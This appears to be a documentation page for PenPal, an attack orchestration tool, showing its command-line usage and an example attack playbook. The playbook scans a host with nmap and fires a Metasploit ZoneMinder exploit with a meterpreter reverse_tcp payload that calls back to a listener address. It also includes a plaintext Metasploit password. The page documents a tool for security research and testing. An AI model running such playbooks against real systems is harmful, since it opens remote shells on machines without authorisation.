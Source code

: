 .. _Overview:

========
Overview
========

PenPal ships with a executable stub called "penpal" that can be called like follows:

.. code-block::

   penpal -h
   usage: penpal [-h] --config CONFIG [--version]

   PenPal is an attack orchestration tool that executes full attack-chains based on playbooks.

   options:
     -h, --help       show this help message and exit
     --config CONFIG  Attack-Playbook in yaml-format
     --version        show program's version number and exit

   (Austrian Institute of Technology) https://aecid.ait.ac.at Version: 1.0.0

The configuration-file is in yaml-format. The following yaml-file is an example of a playbook.yml:

.. code-block:: yaml

   ###

   vars:
     $SERVER_ADDRESS: 192.42.0.254

   cmd_config:
     loop_sleep: 5

   msf_config:
     password: hackhelfer
     server: 10.18.3.86

   commands:
     - type: shell
       cmd: nmap $SERVER_ADDRESS
       error_if: .*test.*

     - type: msf-module
       cmd: exploit/unix/webapp/zoneminder_snapshots
       creates_session: "foothold"
       options:
         RHOSTS: 192.42.0.254
       payload_options:
         LHOST: 192.42.2.253
       payload: cmd/unix/python/meterpreter/reverse_tcp
